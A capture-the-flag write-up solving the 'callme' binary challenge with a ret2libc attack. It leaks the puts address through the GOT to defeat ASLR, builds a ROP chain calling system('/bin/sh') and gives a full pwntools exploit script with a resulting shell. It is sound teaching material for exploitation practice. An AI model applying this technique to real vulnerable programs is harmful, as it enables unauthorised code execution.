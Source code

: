 # callme Alternative Solution

There are no `system()` calls nor any `/bin/sh` strings in the application,
however we can find them at runtime, once `libc` has been loaded.

```
gdb ./callme
start

find "/bin/sh"
# Searching for '/bin/sh' in: None ranges
# Found 1 results, display max 1 items:
# libc : 0x7fa3151ee5bd --> 0x68732f6e69622f ('/bin/sh')

p *system
# $1 = {int (const char *)} 0x7fa31508c290 <__libc_system>
```

GDB disables ASLR per default, to enable it run `set disable-randomization off`.

In our exploit we can't depend on the addresses reported by GDB above, since
they are usually randomized every time the program is run.

But using `puts` or `printf`, we can print out the address of a known libc
function and then use that to calculate the base address at which libc is
loaded.

```python
payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
```

We read the offset of `puts` from the global offset table (GOT):

```sh
readelf --relocs callme
#   Offset          Info           Type           Sym. Value    Sym. Name + Addend
# 000000601018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
```

Then we pass this as the argument to a `puts` call, which will dereference it
and print out the actual address of the `puts` function.

By knowing the correct version of libc in use we can simply subtract the offset
(where in libc the function is located) from the leaked address (where in
memory it is loaded) to obtain the address where libc starts in our processes
memory.

```python
libc.address = leaked_addr - libc.symbols["puts"]
```

Finally, we can do our search for the `/bin/sh` string and the `system()`
function.

```python
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(system)
```

However, the application crashes in `do_system()`, at a `movaps` instruction.
As we've learned in the previous challenges, a simple fix is to include
another `ret` instruction.

```python
payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
```

Finally, we get a shell:

```
python3 exploit.py
# ... SNIP ...
[*] Switching to interactive mode
$ whoami
testikus
$ ls
callme    exploit.py        key2.dat  payload.txt
```

## Full Exploit Script

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'x86_64'

process_name = "./callme"
elf = ELF(process_name)
rop = ROP(elf)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

offset = b'A'*40
pop_rdi = 0x004009a3  # pop rdi; ret gadget
puts_got = 0x00601018 # puts@got
puts_plt = 0x004006d0 # puts@plt
#leave = 0x004008f0    # leave; ret gadget
ret = 0x004008f1      # ret gadget
main = 0x00400847     # main procedure

#p = process(process_name)
p = gdb.debug(process_name, '''
b *pwnme+89
''')

payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
print(p.recvuntil("> "))
print(p.clean())
p.sendline(payload)
leaked_string = p.recvuntil("\ncallme")
received = leaked_string.replace(b"Thank you!\n", b"")
received = received.replace(b"\ncallme", b"")
leaked_addr = u64(received.ljust(8, b"\x00"))
libc.address = leaked_addr - libc.symbols["puts"]
print("libc base @ %s" % hex(libc.address))

bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

# do_system uses the movaps instruction, which will fail on an unaligned stack.
# To realign the stack we include an additional ret in our rop-chain.
payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)

print(p.clean())
p.sendline(payload)
print(p.clean())
p.interactive()

# with open("payload.txt", "wb") as f:
#     f.write(payload)

#p = process("./callme")
#p.send(payload)
#p.interactive()
```

I created most of this with some help from this great
[blog](https://pollevanhoof.be/nuggets/buffer_overflow_linux/3_aslr_ret2libc).

Note that in the linked article it is mentioned:

> We can now run our script inside a small bash loop and after a couple of
> crashes it should pop us a shell:
> `while ! ./exploit_ret2libc.py; do clear; done`

The reason why the program crashes sometimes instead of spawning a shell
seems to be caused by this line:

```python
recieved = leaked_string.replace(b"overflow me:", b"").strip()
```

Note the `strip()` at the end, `leaked_string` contains the `printf`/`puts`
address.
If that address ends (or starts) in a `0x20` this will be removed by the
`strip` call, since `0x20` also happens to be ASCII (space).

